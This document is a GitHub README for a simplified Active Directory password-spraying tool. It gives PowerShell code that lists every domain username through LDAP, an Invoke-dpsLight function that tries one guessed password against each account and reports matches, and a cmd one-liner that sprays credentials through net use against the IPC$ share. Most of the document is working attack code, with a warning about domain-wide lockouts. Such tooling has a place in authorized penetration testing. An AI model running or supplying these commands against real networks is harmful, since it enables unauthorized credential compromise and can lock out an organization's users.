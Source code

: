 # DomainPasswordSprayLight

Kudos to Beau Bullocks [Domain Password Spray script](https://github.com/dafthack/DomainPasswordSpray/blob/master/DomainPasswordSpray.ps1) of which this is a simplification.

## Gather Domain Usernames

Run the following to get a PowerShell object called $AllUserObjects that you can interact with to sort, filter and write seletected usernames to a file of your choosing.

```PowerShell
$UserSearcher = New-Object System.DirectoryServices.DirectorySearcher([ADSI]$CurrentDomain)
$DirEntry = New-Object System.DirectoryServices.DirectoryEntry
$UserSearcher.SearchRoot = $DirEntry
$UserSearcher.PropertiesToLoad.Add("samaccountname") | Out-Null
$Filter = ""
$UserSearcher.filter = "(&(objectCategory=person)(objectClass=user)$Filter)"
$UserSearcher.PageSize = 1000

Write-Host -ForegroundColor Cyan "Searching for all users, that may take several minutes."
$AllUserObjects = $UserSearcher.FindAll()
Write-Host -ForegroundColor "yellow" ("[*] " + $AllUserObjects.count + " total users found.")
```

### Write all usernames to a file

```PowerShell
$outfile = "all-user.txt"
Remove-Item $outfile -ErrorAction Ignore
$AllUserObjects.Properties.samaccountname | add-content $outfile
```

### Write specific users to a file

In this example, the usernames are limited to only those that start with "ab"

```PowerShell
$outfile =  "all-ab-accounts.txt" 
Remove-Item $outfile -ErrorAction Ignore
($AllUserObjects | where-object {$_.Properties.samaccountname -like  "ab*"}).Properties.samaccountname | add-content $outfile
```
## Password Spray with PowerShell

First, copy and paste the Invoke-dpsLight function below into your PowerShell window. This will not run the password spray but will make the Invoke-dpsLight function available for us to use.

```PowerShell
function Invoke-dpsLight ($Password, $userlist) {
    $users = Get-Content $userlist
    $Domain = "LDAP://" + ([ADSI]"").distinguishedName
    $count = 0
    foreach ($User in $users) {
        $count = $count + 1
        $Domain_check = New-Object System.DirectoryServices.DirectoryEntry($Domain, $User, $Password)
        if ($Domain_check.name -ne $null) {
            Write-Host -ForegroundColor Green "Password found for User:$User Password:$Password"
        }
        else {
            Write-Host "$count`:$User " -NoNewline
            # start-sleep -milliseconds 300
        }
    }
    Write-Host -ForegroundColor green "Finished"
}
```

Next, you can execute the follow to run the password spray. Be very careful. You could lock every user in the domain out using this script. Don't run it multiple times in a short period of time. In this example, "Spring2023" is the password guess and **all-ab-users.txt** is the list of usernames to try the password on.

```PowerShell
Invoke-dpsLight "Spring2023" all-ab-users.txt
```

Or, if you want to output the results to a file in addition to on the screen you can use the following.

```PowerShell
Invoke-dpsLight "Spring2023" all-ab-users.txt 2 *>&1 | tee -Append out.txt
```

## Password Spray from the Command Prompt

This method using a different method which generates different Windows event IDs. It is also much slower.

This example uses a password of Spring2023 against a list of users called users.txt in the current directory.

```cmd
@FOR /F "delims=" %n in (users.txt) DO @net use %logonserver%\IPC$ /user:"%userdomain%\%n" "Spring2023" 1>NUL 2>&1 && @echo [*] %n:"Spring2023" && @net use /delete %logonserver%\IPC$ > NUL
```
